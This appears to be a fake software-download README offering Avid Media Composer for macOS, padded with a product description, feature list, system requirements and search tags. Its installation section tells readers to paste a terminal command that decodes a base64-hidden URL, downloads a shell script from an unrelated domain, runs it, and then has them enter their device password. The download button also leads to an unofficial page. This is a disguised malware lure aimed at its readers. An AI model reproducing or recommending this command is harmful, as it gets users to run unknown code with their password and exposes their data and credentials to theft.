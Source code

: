 # Avid Media Composer – Professional Video Editing Software for macOS

![Avid Media Composer Keyboard](https://www.editorskeys.com/cdn/shop/products/new-media-composer-keyboard-backlit-wireless-mac-and-pc-929911.jpg?v=1717082435&width=1500)

## 📥 Download Avid Media Composer for macOS

[![⬇️ Download Avid Media Composer](https://img.shields.io/badge/Download-Avid%20Media%20Composer-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Avid)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Avid Media Composer?

**Avid Media Composer** is a leading professional video editing software trusted by film and television editors worldwide. Designed for macOS, it delivers robust editing tools, high-performance media management, and advanced effects, enabling creative professionals to craft complex video projects efficiently.

With a rich feature set including multi-cam editing, color correction, visual effects, and support for a wide range of media formats, Media Composer is suited for everything from indie films to major Hollywood productions. Its streamlined interface is optimized for Apple Silicon (M1/M2) and Intel Macs, ensuring smooth, real-time playback and editing even with 4K and higher-resolution footage.

Media Composer’s collaborative workflow tools enable teams to work seamlessly on large projects, share media, and track changes in real-time. Whether you’re an experienced editor or stepping into professional video production, Avid Media Composer offers the power and flexibility to bring your vision to life.

---

![Avid Media Composer Timeline](https://www.dpreview.com/files/p/articles/5417878187/avid-media-composer-2020-4-timeline-sequence-map.jpeg)

---

## ⚙️ Key Features

- 🎞️ Advanced timeline and multicam editing  
- 🎨 Professional color grading and correction tools  
- 🖥️ Real-time effects and transitions  
- 📁 Efficient media management and proxy workflows  
- 🎬 Support for a wide variety of codecs and formats  
- 🤝 Collaborative tools for team workflows  
- 🚀 Optimized for Apple Silicon and macOS  
- 🔊 Integrated audio editing and mixing  

---

## 📦 System Requirements

- macOS 10.15 (Catalina) or later  
- Apple Silicon (M1/M2) or Intel-based Mac  
- Minimum 16 GB RAM (32 GB recommended)  
- Dedicated GPU recommended for effects acceleration  
- High-speed storage for media  

---

## 🔍 Tags

avid mac, avid media composer mac, avid media mac, avid media composer download for mac, avid media composer download mac, avid media composer m1, avid video editor mac, professional video editing mac, mac os video editor, avid media composer apple silicon, media composer m1 mac, avid editing software mac, film editing mac, mac video production, avid mac download
